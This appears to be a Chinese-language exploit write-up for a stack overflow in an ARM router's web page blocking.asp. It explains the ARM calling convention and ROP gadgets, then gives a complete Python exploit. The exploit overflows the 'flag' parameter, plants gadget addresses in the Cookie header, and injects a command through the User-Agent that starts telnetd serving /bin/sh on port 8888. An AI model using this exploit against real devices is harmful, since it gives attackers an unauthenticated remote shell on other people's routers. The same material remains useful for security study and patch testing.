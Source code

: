 路由器为ARM架构，因此需提前了解ARM寄存器和其函数调用约定。

>   先看一下 arm 下的函数调用约定，函数的第 1 ～ 4 个参数分别保存在 **r0 ～ r3** 寄存器中， 剩下的参数从右向左依次入栈， 被调用者实现栈平衡，函数的返回值保存在 **r0** 中
>
>   除此之外，arm 的 **b/bl** 等指令实现跳转; **pc** 寄存器相当于 x86 的 eip，保存下一条指令的地址，也是我们要控制的目标

![img](assets/ARM_Calling_Convention.png)

需要执行恶意代码，首先我们需要控制的就是PC或b/bl，能够有机会让我们控制的地方我们称之为 `gadget` 。寻找 gadget 的方式有很多，比如利用ROPgadget，ropper，甚至直接IDA逆向后搜索关键词。找到了合适的gadget，通过栈溢出，我们把URL参数flag溢出到存放请求头参数的区域，再通过请求头中参数使PC的地址成为任意我们所控制的地址。下一步便是寻找和系统调用相关的程序地址，比如system函数。把PC地址指向system函数的地址，再传参恶意代码，整个攻击过程就结束啦。

`payload.py` EXP文件：

```python
#!/usr/bin/python2
import struct, urllib3
# 00019360 add sp, sp #0x800 pop {r4-r7,PC}
# 0002B3B4 mov r0, sp; mov r5, sp; bl system
cmd = 'telnetd -p 8888 -b 0.0.0.0:8888 -l /bin/sh'
cmd = ';' + cmd + ';'
align = "A" * 208
payload = "A" * 532
payload += struct.pack("<I", 0x00019360)
url = "http://192.168.50.1/blocking.asp"
params = {'flag': payload}
headers = {'Accept':('text/html,application/xhtml+xml,application/xml;''q=0.9,image/webp,*/*;q=0.8'),
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Cookie': align + "VVVV" + "WWWW" + "XXXX" + "YYYY" + struct.pack("<I", 0x0002B3B4),
        'User-Agent': cmd + 'clickedItem_tab=0',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'}
http = urllib3.PoolManager()
r = http.request('GET', url, fields=params,headers=headers,)
```

